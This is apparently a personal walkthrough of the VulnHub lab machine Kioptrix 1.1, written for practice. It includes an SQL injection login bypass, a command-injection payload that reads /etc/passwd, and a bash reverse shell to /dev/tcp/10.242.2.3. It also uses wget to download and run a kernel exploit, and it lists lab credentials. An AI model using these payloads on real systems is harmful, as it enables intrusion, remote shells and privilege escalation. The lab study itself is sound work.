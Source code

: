 +++
title = "Kioptrix 1.1"
date = 2019-02-01
[taxonomies]
tags = ["vulnhub"]
+++

1. Ran `netdiscover` to discover the IP address of the machine.

2. Used nmap TCP scan:

	```bash
	nmap -vv -Pn -A -sS -T4 -p- -oN /root/tcpscan.txt 192.168.225.132
	```

3. Used nmap UDP scan:

	```bash
	nmap -vv -Pn -A -sU -T4 -p- -oN /root/udpscan.txt 192.168.225.132
	```

4. Used Firefox to navigate to port 80 and found a form asking for username and password.

5. Started enumeration process:

	```bash
	dirb http://192.168.225.132
	```

	```bash
	nikto -h 192.168.225.132
	```

	Used SQL injection bypass cheat sheet and successfully bypassed the form using:

	```bash
	admin' or '1'='1
	```

	[https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

6. Found another form that contains a ping tool. Used command injection to successfully run another command using:

	```bash
	google.ca;cat /etc/passwd
	```

7. Getting shell access by refining the command injection - [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

	Setup netcat on Kali:

	```bash
	nc -nvlp 8080
	```

	Execute the command injection from browser:
	
	```bash
	localhost;bash -i >& /dev/tcp/10.242.2.3/8080 0>&1
	```

8. Check account privileges - [https://github.com/reider-roque/linpostexp](https://github.com/reider-roque/linpostexp)

	```bash
	wget 10.242.2.3/linuxprivchecker.py
	```

	```bash
	./linuxprivchecker.py
	```

9. **FAIL** - I got side tracked by trying to somehow edit the writable logwatcher cronjob with 777 permissions.

10. I dug around the system to see if I could find simple passwords.

	Found password for MySQL user account `john:hiroshima` inside `index.php`.

11. Investigated the MySQL databases using john's account.

	Found password for user account `root:hiroshima` account for MySQL. This was a fluke find as the hashes for John and Root account were the same.

12. **FAIL** - Somehow I got the idea that I could try and escape to a root shell account from the MySQL command line

	```bash
	!\ bash
	```

13. After thinking hard about what to do next, I finally resorted to linux kernel 2.6.9 exploit - [https://www.exploit-db.com/exploits/9479](https://www.exploit-db.com/exploits/9479)

	```bash
	wget 10.242.2.3/9479.c
	```

	```bash
	gcc 9479.c
	```

	```bash
	./a.out
	```

14. ROOTED MY FIRST BOX!

### Today I learned
```bash
python -m SimpleHTTPServer 80
```

```bash
php -S localhost:80
```

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

* You can run shell commands in the MySQL command line.

### Improvement for next time

* Keep your enumeration scripts and any files you need to transfer between machines using `/var/www/html`. It will save time to always run python or php HTTP server. Remember to execute:

```bash
service apache2 start
```

* If you get baited into trying to modify full permission files/folders, do a quick simple test to see if you can edit the file/folder first.

* Taking notes as I go. This is an ongoing process and I feel like I know where I could do better.
